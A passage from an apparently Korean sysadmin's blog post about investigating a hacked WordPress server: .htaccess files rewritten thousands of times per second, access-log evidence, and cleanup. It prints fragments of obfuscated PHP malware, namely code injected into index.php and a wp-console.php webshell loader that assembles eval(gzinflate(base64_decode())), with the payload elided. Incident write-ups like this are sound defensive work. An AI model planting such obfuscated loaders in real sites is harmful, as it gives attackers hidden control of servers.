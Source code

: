 ```php
(\'yygpKhTbDS11fNyC8uUdVPSSxJTMvMSdUryCiwT8m3VS1WK0gEkWktPFQBIA\');$Icllc11cl1=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x49\x31\x63\x6c\x31\x31\x6c\x63\x6c\x63"]("/%host%/si",$Icc1ll1l1c.$Ic1cc1l1ll,$Icllc11cl1);$Icllc11cl1=sprintf($Icllc11cl1,$Icc11clll1,$Icl11c1lcl,$Il1cl1cc1l);${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x49\x63\x31\x63\x6c\x6c\x31\x31\x6c\x63"]($Icllc11cl1);');$Iccl1l11lc=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x49\x31\x31\x63\x6c\x6c\x63\x6c\x63\x31"]('$htName,$htContents','$Ic11l1lclc=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x49\x63\x31\x6c\x31\x63\x63\x6c\x6c\x31"]($htName,\'w\') or die(\'0\');${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x49\x31\x6c\x63\x6c\x31\x6c\x31\x63\x63"]($Ic11l1lclc,$htContents);${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x49\x63\x6c\x63\x31\x31\x63\x6c\x31\x6c"]($Ic11l1lclc);');${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x49\x6c\x31\x63\x6c\x63\x63\x6c\x31\x31"]();?>
```

이렇게 굉장히 긴 암호로된 구문이 3줄 이내에 26,532자가 쓰여져 있던 것이다.

리눅스 내에서 파일 확인 간 VIM을 사용하기에 4번째 라인이 지정돼있어 확인하지 못했고,  
DB Dump로 데이터까지 다 검색/확인하고 나서야 바로 앞에 있던 문제를 확인한 것이었다.  
(정말 등잔 밑이 어둡다라는 속담이 잘 어울리는 이슈였다. 하하하하하... 😭😭)

위 문제 구문을 삭제하고 나서 문제가 됐던 Query도 Sitemap도 동작하지 않게 됐다.

## ✔ 최종 이슈 상태

어느정도 문제는 해소됐지만 가장 큰 문제는 이 index.php 파일을 어떻게 변환했을까였다.  
그래서 다음에 또 이슈가 발생될 때까지 대기하려고 했고 지난주 토요일 새벽에 확인됐다.

토요일 새벽 하루 일과를 정리하던 중 회사 PC에 확인할 것이 있어 01:20 쯤에 접근했다.  
놀랍게 내가 접속하자마자 고객사 서버 알람이 발생되길래 서둘러 서버에 접근해보았다.

이전에 만들어졌던 파일들이 다시 만들어졌지만 자동화 스크립트로 인해 모두 옮겨졌고,  
이전 발생됐던 .htaccess 파일 ms 단위 변경이 이뤄지고 있는 것이 실시간으로 확인됐다.

서둘러 로그를 확인, 그리고 크래킹 페이지에 접근한 로그의 IP를 확인하여 검색했다.  

우선 .htaccess 파일 무한 변조 현상과 관련된 로그로는 아래와 같은 로그가 확인됐다.

```
"GET /2index.php?htaccessrun&genrun&genother HTTP/1.1" 200 104295
```

아무래도 지속 크래킹 파일을 이관하고 있지만 이관되기 전에 요청하는 건에 대해서는  
조치가 어려웠던거 같고 상위 요청을 수행하면 while 문으로 무한정 실행되는 것 같았다.  

그렇기에 .htaccess 파일이 초 당 수 백, 수 천번의 변조가 가능했던 것이었던거 같다.  
또한 Apache 프로세스가 이를 호출하니까 Apache 프로세스 정지 전까지 계속된 것이다.

다음에 발견된 것이 충격적인데 /uploads/ 하단에서 wp-console.php 파일이 확인됐다.

```
"GET /wp-content/uploads/homelog-images/wp-console.php HTTP/1.1" 200 1104 
```

uploads 경로인데.. php 파일? 뭔가 이상해서 파일 확인 시 역시나 크래킹 파일이었다.

```php
<?php $pKhd5274 = " 블라블라 대충 암호문";$VK4666 = $pKhd5274[13].$pKhd5274[24];$VK4668 = $pKhd5274[36].$pKhd5274[5].$pKhd5274[19];$VK4670 = $pKhd5274[7].$pKhd5274[15].$pKhd5274[39];$VK4667 = $pKhd5274[21].$pKhd5274[32].$pKhd5274[4].$pKhd5274[21];$VK4669 = $pKhd5274[39].$pKhd5274[13].$pKhd5274[4];function cxzvvdwsadscvx($e,$c,$a,$t,$y){        return $e.$c.$a.$t.$y;}$ykSOp869 = chr(102)."la\x74e\x28\x62".chr(97);$ykSOp867 = "a\x6C";$ykSOp8671 = chr(40);$VK4665 = cxzvvdwsadscvx($VK4666,$VK4667,$VK4668,$VK4669,$VK4670);$ykSOp872 = "".chr(100);$ykSOp8721 = "\x65";$KsF5162 = "".chr(41)."\x29\x29;";$ykSOp866 = "e".chr(118);$ykSOp868 = "g";$ykSOp870 = "\x73";$ykSOp871 = "".chr(52)."".chr(95);$ykSOp8681 = chr(122)."i\x6E";$ykSOp873 = chr(99)."ode(";function vcbvhferwerdfdsfsd($g,$a,$b){    return $g.$a.$b;}$ksB8219 = vcbvhferwerdfdsfsd($ykSOp866,$ykSOp867,$ykSOp8671).vcbvhferwerdfdsfsd($ykSOp868,$ykSOp8681,$ykSOp869).vcbvhferwerdfdsfsd($ykSOp870.chr(101)."".chr(54),$ykSOp871,$ykSOp872).vcbvhferwerdfdsfsd($ykSOp8721,$ykSOp873,'')."블라 블라 대충 암호문"
```
